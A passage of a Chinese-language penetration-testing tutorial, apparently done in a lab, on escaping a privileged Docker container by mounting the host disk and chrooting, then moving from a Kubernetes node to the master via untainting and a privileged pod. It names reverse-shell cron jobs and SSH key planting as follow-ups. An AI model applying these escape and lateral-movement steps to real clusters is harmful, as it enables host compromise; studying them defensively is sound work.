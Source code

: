查看 docker 中的一些服务、共享目录、挂载等

## 五、docker 逃逸

查看 `/proc/1/status`，发现此容器为特权容器

<br>

<img width="600" src="/img/image-20220830131547932.png"></br>

这里使用如下命令

````bash
mkdir /httpd_test
mount /dev/sda1 /httpd_test
chroot /httpd_test/
````

现在在使用 Kubernetes 等命令可以发现能够执行成功，证明已经逃逸出来了。

<br>

<img width="800" src="/img/image-20220830144327410.png"></br>

接下来就是写定时任务反弹 shell、写 ssh 等。

## 六、node 节点到 master 节点

上面已经获取到 node 节点 shell，因为生产环境的 docker、pod 与 k8s 一般不属于同一网段，现在获取到 node 节点权限就可以访问整个 k8s 集群网络了。

一般在 node 节点不能执行 k8s 命令，这里实验环境简易搭建一下。

首先通过如下命令，设置节点标号，然后清除 master 节点不能分配 pod

```bash
> kubectl label node k8s-master  type=node1
> kubectl taint nodes --all node-role.kubernetes.io/master-node "k8s" untainted
> kubectl describe node k8s | grep Taints
  Taints:             <none>
```

创建如下 nginx-pod.yaml 文件

```yaml
apiVersion: v1
kind: Pod                     # 类型为 Pod
metadata:
  name: nginx-pod1            # Pod 的名称
  labels:
    app: nginxlabel
spec:
  nodeSelector:
    type: node1
  containers:                  # Pod 内容器的定义部分
    - name: nginx              # 容器对应的名称
      image: nginx             # 容器对应的 Docker 镜像
      ports:
        - containerPort: 80    # 容器应用监听的端口号
      securityContext:
        privileged: true
```
